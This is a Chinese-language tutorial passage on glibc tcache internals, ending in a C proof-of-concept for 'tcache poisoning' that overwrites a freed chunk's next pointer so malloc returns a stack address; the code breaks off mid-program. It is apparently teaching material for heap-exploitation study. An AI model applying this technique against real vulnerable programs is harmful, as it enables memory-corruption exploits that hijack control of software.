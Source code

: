 在 `tcache_get` 中，仅仅检查了 **tc_idx** ，此外，我们可以将 tcache 当作一个类似于 fastbin 的单独链表，只是它的 check，并没有 fastbin 那么复杂，仅仅检查 `tcache->entries[tc_idx] = e->next;`

### 范围

 chunk的大小在32bit上是12到512（8byte递增）；在64bits上是24到1024（16bytes递增）

### 放入tcache bin的情况

1.释放时，_int_free中在检查了size合法后，放入fastbin之前，它先尝试将其放入tcache
2.在int_malloc中，若fastbins中取出块则将对应bin中其余chunk填入tcache对应项直到填满（smallbins中也是如此）
3.当进入unsorted bin(同时发生堆块合并）中找到精确的大小时，并不是直接返回而是先加入tcache中，直到填满：

### 取tcache bin中的chunk

1.在__libc_malloc，_int_malloc之前，如果tcache中存在满足申请需求大小的块，就从对应的tcache中返回chunk
2.在遍历完unsorted bin(同时发生堆块合并）之后，若是tcache中有对应大小chunk则取出并返回：
3.在遍历unsorted bin时，大小不匹配的chunk将会被放入对应的bins，若达到tcache_unsorted_limit限制且之前已经存入过chunk则在此时取出（默认无限制）

## tcache poisoning

通过覆盖 tcache 中的 next，不需要伪造任何 chunk 结构即可实现 malloc 到任何地址。

```
#include <stdio.h> 
#include <stdlib.h>
#include <stdint.h>
#include <assert.h>

int main()
{
       // disable buffering
     setbuf(stdin, NULL);
     setbuf(stdout, NULL);

     printf("This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
                 "returning a pointer to an arbitrary location (in this case, the stack).\n"
                   "The attack is very similar to fastbin corruption attack.\n");
     printf("After the patch https://sourceware.org/git/?p=glibc.git;a=commit;h=77dc0d8643aa99c92bf671352b0a8adde705896f,\n"
                  "We have to create and free one more chunk for padding before fd pointer hijacking.\n\n");

     size_t stack_var;
     printf("The address we want malloc() to return is %p.\n", (char *)&stack_var);

     printf("Allocating 2 buffers.\n");
     intptr_t *a = malloc(128);
     printf("malloc(128): %p\n", a);
     intptr_t *b = malloc(128);
     printf("malloc(128): %p\n", b);

     printf("Freeing the buffers...\n");
     free(a);
     free(b);

     printf("Now the tcache list has [ %p -> %p ].\n", b, a);
     printf("We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
                   "to point to the location to control (%p).\n", sizeof(intptr_t), b, &stack_var);
     b[0] = (intptr_t)&stack_var;
     printf("Now the tcache list has [ %p -> %p ].\n", b, &stack_var);

     printf("1st malloc(128): %p\n", malloc(128));
     printf("Now the tcache list has [ %p ].\n", &stack_var);

```